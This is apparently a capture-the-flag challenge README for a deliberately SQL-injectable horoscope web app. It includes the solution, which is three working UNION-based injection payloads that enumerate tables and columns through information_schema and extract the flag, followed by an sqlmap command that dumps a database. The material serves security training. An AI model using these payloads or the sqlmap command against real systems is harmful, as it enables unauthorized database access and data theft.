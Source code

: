 # Horoscope Generator
Users enter their birth month, day, and year. Month is SQL injectable, but the first x characters need to be an actual month for the app to accept it, and the day and year need to be numeric as well.

After injecting, there's a troll table in the current database named "flags", which just has a list of countries and descriptions of their national flags. The attacker will have to find the second database, find the flag table, then select the flag. To make this trickier, the app only outputs one row of the result, so additional SQL to select a certain row is necessary. Can be done with SQLmap, but requires a lot of tinkering to get it to work.

Injections:
1. List tables 1 by 1
  * `" union select concat(concat(table_schema, '.'), table_name) from information_schema.tables where table_schema != 'mysql' and table_schema != 'information_schema' limit 1 offset 3;#`
2. List columns in private.flag
  * `" union select column_name from information_schema.columns where table_schema = 'private' and table_name = 'flag' limit 1 offset 2;#`
3. Pull the flag
  * `" union select flag from private.flag limit 1 offset 1;#`
  
SQLmap:
`sqlmap --data='month=May&day=1&year=1999' --level=5 -u http://(challenge site)/index.php --threads=4 -D private --dump`
